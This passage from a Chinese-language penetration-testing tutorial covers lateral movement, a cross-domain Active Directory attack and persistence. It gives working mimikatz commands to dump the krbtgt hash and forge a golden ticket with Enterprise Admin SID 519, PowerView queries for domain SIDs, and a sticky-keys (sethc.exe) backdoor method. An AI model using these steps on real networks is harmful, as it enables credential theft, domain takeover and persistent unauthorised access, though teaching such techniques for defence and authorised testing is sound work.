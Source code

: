 如果能找到一个其他主机存在的远程漏洞，借助已攻破的主机发起利用，那么也可以达到横向移动的目的。还记得"永恒之蓝"漏洞吗？一款叫作 WannaCry 的勒索病毒袭击全球，其利用的正是"永恒之蓝"（Windows SMB 远程命令执行漏洞），Metasploit 中已集成该漏洞的利用。

你可以多关注下最新的一些远程漏洞，有时直接利用远程漏洞获得域内其他主机的控制权也是一种快捷的方式。

#### 4.跨域攻击

对于父子域这种双向信息的情况，我们可以利用 SID History 进行跨域攻击，使用命令如下。

* 使用 mimikatz 获取子域的 krbtgt Hash，krbtgt 是域内默认创建的账号，域内每个账号的票据都是由它生成的，只要拿到 krbtgt 的密码 Hash，就可以随意伪造票据，进而使用票据登录域控制器。

```java
lsadump::lsa /patch
```

* 使用 powerview 获取父子域的 sid：

```java
Get-DomainComputer -Domain {父域名}
Get-DomainComputer -Domain {子域名}
```

* 利用 mimikatzt 向内存注入票据，添加 SID＝519 企业管理员。

```java
kerberos::golden /user:Administrator /krbtgt:{第一步获取的hash} /domain:{域名} /sid:{子域sid} /sids:{替换父域sid最后一个值为519} /ptt
```

* 访问父域的共享目录

```java
dir \\{父域名}\c$
```

### 权限维持

有时服务器被重启，或者修改密码之后，我们就失去了对目标的控制权，因此我们得想办法去维持权限的持久性，保证我们在需要的时候都能够远程控制。

#### 1.WebShell

如果是 Webshell，那服务器重启后也没影响。关于 Webshell，前面课程已介绍过，此处不再赘述。

#### 2.系统后门

前面我们使用 metasploit 利用漏洞去获取 meterpreter 后门也是一种方式，你可以把后门添加到自启动项，保证重启后仍有效，这种比较适合开启监听后门，因为有时候我们没有一直在本地开启监听去等待对方连接。

粘滞键后门是最常用的后门留取方式，粘滞键是指连续按 5 次 Shift 键而触发的，它执行的是 windows\\system32\\sethc.exe 程序，我们用后门程序替换掉就可以。

<Image alt="Drawing 28.png" src="https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEjSAG5D7AAB7pk5Jmlc919.png"/>  
图 29 粘滞键

除此之外，你还可以使用注册表、计划任务等方式来留取后门。

#### 3.域控维权

在拿到域控后，攻击者会对现有的权限进行持久化操作，以保证长期有效地控制它，常用的方法有以下两种。
